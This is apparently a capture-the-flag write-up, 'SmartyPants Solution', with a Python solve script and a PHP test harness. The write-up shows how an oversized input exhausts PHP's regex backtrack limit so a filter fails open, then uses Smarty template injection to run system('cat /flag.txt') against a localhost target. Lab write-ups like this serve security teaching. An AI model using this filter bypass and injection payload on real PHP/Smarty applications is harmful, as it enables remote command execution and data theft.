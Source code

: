 # SmartyPants Solution

The users input is filtered by a complex regex. A crafted payload can make the regex function backtrack so much that it reaches the PHP default backtrack limit.

When this happens preg_match returns false instead of 0 or 1 and the check for malicious content will fail.
After we bypass the regex we can use standard Smarty SSTI payloads to read the flag.

#### solve.py

```py
import requests

data={'data':f"on{'x'*1000000} {{system('cat /flag.txt')}}"}
print(data)
r = requests.post('http://localhost',data=data)
print(r.text.split('xxxxxx')[-1])
```

#### test.php

```php
<?php
function test($input,$limit){
	if($limit!=0){
		ini_set('pcre.backtrack_limit',$limit);
	}
	echo "Limit: ".ini_get('pcre.backtrack_limit').PHP_EOL;
	//$pattern = "/{+[{%]+[}%]+}/";
	//$pattern = "/(x+x+)+y/";
	$pattern = "/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+[{%]+.*[}%]+}+)/";
	$match = preg_match($pattern,$input);
	echo "PREG Error: ".preg_last_error_msg().PHP_EOL;

}

$val = "on".str_repeat('x',100).str_repeat(" ",100).'{{7*7}}'; //.str_repeat("%",1000000);
//die();
//$val = str_repeat('x',16); //.'y'; //"x"*100;

echo test($val,0).PHP_EOL;
echo test($val,1).PHP_EOL;
echo test($val,100).PHP_EOL;
echo test($val,1000).PHP_EOL;
echo test($val,10000).PHP_EOL;
//echo test($val,100000).PHP_EOL;
```
